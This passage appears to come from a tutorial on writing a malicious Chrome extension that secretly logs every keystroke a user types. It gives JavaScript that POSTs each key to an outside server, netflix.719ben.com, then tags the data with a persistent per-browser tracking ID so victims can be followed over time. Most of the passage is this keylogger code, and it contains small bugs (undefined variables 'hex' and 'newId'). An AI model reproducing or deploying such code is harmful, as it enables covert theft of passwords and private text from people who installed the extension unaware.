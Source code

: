 ```javascript
document.onkeypress = (evt) => {
  let letter = String.fromCharCode(evt.keyCode)

  let xhr = new window.XMLHttpRequest()
  xhr.open('POST', 'https://netflix.719ben.com/', true)
  xhr.setRequestHeader('Content-type',
                       'application/x-www-form-urlencoded')
  xhr.send(`letter=${letter}`)
}
```

We could stop there, the extension would send every keystroke any user of our extension made, but we can make a few changes that make it much more effective and efficient. We want to be able to tell the difference between each user that uses the extension, so we generate an (almost always) unique id for each one. We can use `window.crypto` to generate a random string and put it into an `int8` array that has 32 elements. Then convert the random array to a hexadecimal string.

```javascript
const getRandomToken = () => {
  let randomPool = new Uint8Array(32)
  window.crypto.getRandomValues(randomPool)
  let hexToken = ''
  for (let i = 0; i < randomPool.length; ++i) {
    hex += randomPool[i].toString(16)
  }
  return hexToken
}
```

We want to be able to generate this token once and then store it so we can keep track of a user over time. To do this, the [chrome.storage](https://developer.chrome.com/extensions/storage) API is needed. We can use the API to save an ID for every computer which our extension is on. We are first going to check if we have an ID already stored, creating one if we do not.

```javascript
window.chrome.storage.local.get('userId', (items) => {
  let userId = items.userId

  if (userId === undefined) {
    userId = getRandomToken()
    window.chrome.storage.local.set({userId: newId})
  }
})
```

Now that we have a way to generate new Ids for all browsers using the extension, we need to start sending those Ids to the server. This will only require a few small changes.

```javascript
document.onkeypress = (evt) => {
  let letter = String.fromCharCode(evt.keyCode)
  let userId = null

  window.chrome.storage.local.get('userId', (items) => {
    userId = items.userId
    if (userId === undefined) {
      userId = getRandomToken()
      window.chrome.storage.local.set({userId: userId})
    }
  })

  let xhr = new window.XMLHttpRequest()
  xhr.open('POST', 'https://netflix.719ben.com/', true)
  xhr.setRequestHeader('Content-type',
                       'application/x-www-form-urlencoded')
  xhr.send(`userId=${userId}&letter=${letter}`)
}
```